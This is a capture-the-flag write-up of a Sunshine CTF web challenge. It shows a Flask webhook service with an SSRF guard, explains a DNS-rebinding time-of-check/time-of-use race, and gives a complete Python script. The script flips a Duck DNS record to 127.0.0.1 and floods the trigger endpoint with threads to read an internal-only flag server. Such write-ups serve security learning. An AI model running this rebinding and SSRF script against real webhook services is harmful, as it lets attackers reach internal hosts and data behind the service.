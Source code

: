 # CTF Competition: Sunshine CTF

### CTF Name: Intergalactic Webhook Service
**CTF Weight:** 417 points

file:///home/character/Pictures/Screenshots/Screenshot%20from%202025-09-27%2017-54-03.png

Let's look at the source code for this fun little webhook service:

```commandline
FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

app = Flask(__name__)

registered_webhooks = {}

def create_app():
    return app

@app.route('/')
def index():
    return render_template('index.html')

def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None

@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500

```

So the `/Register` endpoint will take a given URL and run it through `is_ip_allowed(url)`. If the IP is good then we get a json token which we feed into the 
`/trigger` endpoint. 

There is another server on port 5001 which contains the flag.
`threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()` 

It is important to not that you cannot directly access this server as it was created in the docker. So even when testing on local,
you will not be able to directly go to  `127.0.0.1:5001`. Only the service/container itself will be able to access it. 

It is important to note that the `is_ip_allowed(url)` is a preventative measure that is restricting certain ip addresses:

```
ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
```

This is a big issue because the flag is at 127.0.0.1 which is being blocked by this function.

Hmmm... lets think

During registration, it is preventing us from submitting a url that resolves to a private or local address.. so what if 
we first submitted an url that resolves to a  public address, then once it passes registration change it back to `127.0.0.1`

I used Duck DNS to carry out the DNS rebinding attack.

So the attack flow is as follows:

```
1) set controlled domain to resolve to valid public url

2) register this domain with the webhook service and retrieve the token

4) change the domain to resolve to 127.0.0.1

3) submit the token to /trigger
```

Now there is another `is_ip_allowed(url)` check in the trigger function which is very annoying and once again prevents us 
from going to the flag endpoint.

However, I can send ALOT of requests to the `/trigger` endpoint and during that call, then change the domain to resolve to `127.0.0.1`
This way, the domain rebinding will happen inside the `/trigger` function and we can potentially do a TOCTOU attack inside the function.

So the new attack flow is:

```
1) set controlled domain to resolve to valid public url

2) register this domain with the webhook service and retrieve the token

3) submit Thousands of requests to /trigger endpoint

    3a) change the domain to resolve to 127.0.0.1

```

Final script:
```commandline
#!/usr/bin/env python3
import requests
import threading
import time

DUCK_TOKEN = "<hehe no leaks >"
DOMAIN = "characterwhitectf.duckdns.org"

def update_dns(ip):
    requests.get(f"https://www.duckdns.org/update?domains={DOMAIN}&token={DUCK_TOKEN}&ip={ip}")

def attack():
    update_dns("208.67.222.222")
    time.sleep(0.3)
    
    r = requests.post("https://supernova.sunshinectf.games/register", 
                     data={"url": f"http://{DOMAIN}:5001/flag"})
    wid = r.json().get("id")
    
    for _ in range(20):
        update_dns("127.0.0.1")
        time.sleep(0.02)
        
        results = []
        def worker():
            try:
                r = requests.post("https://supernova.sunshinectf.games/trigger", 
                                 data={"id": wid}, timeout=6)
                if "sun{" in r.text:
                    results.append(r.text)
            except: pass
        
        threads = [threading.Thread(target=worker) for _ in range(120)]
        for t in threads: t.start()
        for t in threads: t.join()
        
        for flag in results:
            print(flag)
            return
        

attack()
```
